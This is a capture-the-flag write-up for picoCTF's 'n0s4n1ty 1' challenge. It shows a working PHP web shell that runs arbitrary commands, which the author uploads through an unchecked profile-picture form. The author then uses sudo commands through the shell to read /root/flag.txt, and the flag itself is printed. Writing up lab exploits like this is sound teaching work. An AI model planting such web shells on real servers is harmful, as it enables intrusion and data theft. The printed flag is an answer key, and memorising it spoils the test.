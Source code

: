 # n0s4n1ty 1

## Description
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:64354/)!
## Solve
1. First we connect to the challenge with the given link.

2. We can see a site where we can upload what it seem to be a profile picture, so let's try it.

3. Then, we got the next message: `The file null.png has been uploaded Path: uploads/null.png` and we can see in the URL that the site is using php. 

4. With this in mind and the challenge name, let's try to upload a file that is not an image, let's try to upload a php shell:
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

5. Let's go to the path that the site says: `The file shell.php has been uploaded Path: uploads/shell.php`: http://standard-pizzas.picoctf.net:64354/uploads/shell.php

6. And now, we can execute commands:
```sh
sudo -l
#Matching Defaults entries for www-data on challenge:
#    env_reset, mail_badpass, #secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

#User www-data may run the following commands on challenge:
#    (ALL) NOPASSWD: ALL
```

7. Let's search on the /root directory:
```sh
sudo ls /root
#flag.txt
sudo cat /root/flag.txt
#picoCTF{wh47_c4n_u_d0_wPHP_712a9451}
```

8. And we got the flag:
```flag
picoCTF{wh47_c4n_u_d0_wPHP_712a9451}
```

## Additional Notes 

## References
